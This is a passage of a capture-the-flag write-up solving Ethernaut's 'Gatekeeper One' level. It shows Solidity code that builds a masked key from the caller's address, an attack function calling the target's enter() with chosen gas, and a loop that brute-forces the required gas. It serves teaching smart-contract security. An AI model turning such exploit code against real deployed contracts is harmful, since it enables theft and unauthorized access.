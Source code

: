 

![ethernaut challenge 13, gatekeeper one](https://metana.io/wp-content/uploads/2024/06/BigLevel13.svg)
### Constructing the Key


To create a key that satisfies these conditions, the following steps are taken:


* Convert the caller’s address to a `uint160`.
* Then convert it to a `uint64`, retaining only the lower 8 bytes.
* Apply the mask `0xFFFFFFFF0000FFFF` to zero out the higher 2 bytes of the lower 4 bytes while preserving the upper 4 bytes.



```
bytes8 key = bytes8(uint64(uint160(address(msg.sender)))) & 0xFFFFFFFF0000FFFF;
```

This ensures that:


1. The lower 2 bytes of the key are equal to the lower 4 bytes of the key.
2. The key’s lower 8 bytes are not simply a repetition of the lower 4 bytes.
3. The key’s lower 2 bytes match the lower 2 bytes of the caller’s address.


### Execution


To execute the attack, the attacker needs to carefully choose the gas amount and call the `hack` function:



```
function hack(uint256 gas) external {
    uint64 uintKey = uint64(uint160(address(msg.sender)));
    bytes8 key = bytes8(uintKey) & 0xFFFFFFFF0000FFFF;

    (bool sent,) = address(target).call{gas: gas}(abi.encodeWithSignature("enter(bytes8)", key));
    require(sent, "Transaction failed");
}
```

### Gas Calculation


The exact gas amount required to satisfy `gateTwo` can be determined through trial and error or by inspecting the gas cost of the operations up to the `gasleft() % 8191` check. Typically, the process involves making multiple attempts with slightly different gas values until the condition is met. The gas costs can vary depending on the Solidity compiler version used to compile the code. However, we can find the required gas by writing a test using a forked local test environment that includes:



```
for (uint256 i = 200; i <= 8191; i++) {
    try attack.hack(i) {
        console.log("gas required ->", i);
        break;
    } catch {}
}
```
